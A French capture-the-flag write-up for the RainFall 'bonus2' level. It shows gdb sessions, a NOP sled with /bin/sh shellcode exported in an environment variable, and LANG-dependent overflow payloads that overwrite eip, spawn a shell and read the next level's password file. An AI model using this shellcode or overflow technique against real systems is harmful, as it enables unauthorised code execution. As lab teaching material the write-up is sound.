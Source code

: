 On remarque encore des strncpy, le premier de 40 caractères et le second de 32 caractères.

```bash
...
(gdb) r $(python -c 'print "a" * 40') $(python -c 'print "A" * 33')
...
(gdb) cont
Continuing.
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��

Program received signal SIGSEGV, Segmentation fault.
0x08004141 in ?? ()
```

Nous remarquons que nous pouvons altérer la valeur de retour de la fonction `greetuser`, à l'aide de la fonction `strcat`.
Nous remarquons que le message est diffèrent selon la variable environement `LANG`. Ce qui modifie la taille de la string écrite.
On trouve le nombre de caractères avant de pouvoir modifier le registre `eip`.


On set une variable d'environement `S` où l'on insère des NOP suivis de notre shellcode.
Les NOP permettent de trouver plus facilement le shellcode.

```bash
bonus2@RainFall:~$ export S=$(python -c 'print "\x90" * 50 + "\x31\xC0\x31\xDB\x31\xD2\x31\xC9\xB0\x0B\x53\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\xCD\x80"')
```

Ensuite on cherche où est à peu près l'adresse de `S` afin de pouvoir rediriger à cette endroit pour executer le shellcode.

```bash
bonus2@RainFall:~$ gdb bonus2
...
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus2/bonus2 
(gdb) x/250s $esp
...
0xbffffe54:	"S=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\322\061ɰ\vShn/shh//bi\211\343̀"
```

Voici deux exemples où l'on récupère le `.pass`:

```bash
bonus2@RainFall:~$ LANG=fi ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "A" * 18 + "\xaf\xfe\xff\xbf"')
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAAAAAAAAAAAA����
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

```bash
bonus2@RainFall:~$ LANG=nl ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "A" * 23 + "\xaf\xfe\xff\xbf"')
Goedemiddag! aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAAAAAAAAAAAAAAAAA����
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
